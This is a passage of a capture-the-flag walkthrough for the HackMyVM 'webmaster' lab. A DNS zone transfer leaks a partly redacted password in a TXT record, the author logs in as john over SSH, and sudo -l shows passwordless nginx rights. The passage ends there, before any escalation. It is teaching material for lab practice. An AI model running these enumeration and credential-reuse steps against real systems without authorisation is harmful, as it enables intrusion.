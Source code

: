 ```console
┌──(coolatos㉿CooLaToS)-[~/HMV/webmaster]
└─$ dig axfr @10.1.1.25 webmaster.hmv    

; <<>> DiG 9.18.4-2-Debian <<>> axfr @10.1.1.25 webmaster.hmv
; (1 server found)
;; global options: +cmd
webmaster.hmv.          604800  IN      SOA     ns1.webmaster.hmv. root.webmaster.hmv. 2 604800 86400 2419200 604800
webmaster.hmv.          604800  IN      NS      ns1.webmaster.hmv.
ftp.webmaster.hmv.      604800  IN      CNAME   www.webmaster.hmv.
john.webmaster.hmv.     604800  IN      TXT     "M***(deducted)**d"
mail.webmaster.hmv.     604800  IN      A       192.168.0.12
ns1.webmaster.hmv.      604800  IN      A       127.0.0.1
www.webmaster.hmv.      604800  IN      A       192.168.0.11
webmaster.hmv.          604800  IN      SOA     ns1.webmaster.hmv. root.webmaster.hmv. 2 604800 86400 2419200 604800
;; Query time: 4 msec
;; SERVER: 10.1.1.25#53(10.1.1.25) (TCP)
;; WHEN: Tue Jul 12 14:23:08 EEST 2022
;; XFR size: 8 records (messages 1, bytes 274)

```

# SSH

Using the password from the TXT Record we ssh to the box with user john

```console
┌──(coolatos㉿CooLaToS)-[~/HMV/webmaster]
└─$ ssh john@$ip                                                              
john@10.1.1.25's password: 
Linux webmaster 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul 12 07:00:39 2022 from 10.1.1.11
john@webmaster:~$ ls
flag.sh  user.txt
john@webmaster:~$ ./flag.sh #you will get the 1st Flag
john@webmaster:~$ sudo -l
Matching Defaults entries for john on webmaster:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on webmaster:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
